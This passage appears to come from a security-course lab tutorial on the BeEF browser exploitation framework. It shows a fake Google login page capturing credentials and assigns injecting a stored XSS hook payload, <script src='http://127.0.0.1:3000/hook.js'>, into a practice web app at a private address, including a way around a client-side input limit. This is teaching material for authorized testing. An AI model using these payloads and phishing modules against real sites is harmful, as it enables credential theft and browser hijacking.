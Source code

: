 
To access this exploit, select Google Phishing under Social Engineering.



After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.



To launch the exploit, select Execute in the bottom right corner.


After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.


A victim could easily mistake this for a real login prompt.




Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page.


Username: hackeruser


Password: hackerpass





Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.





Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.


Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/

The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js

The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>




When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.


Hint: Try right-clicking and selecting "Inspecting the Element".



Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:


Social Engineering >> Pretty Theft


Social Engineering >> Fake Notification Bar


Host >> Get Geolocation (Third Party)
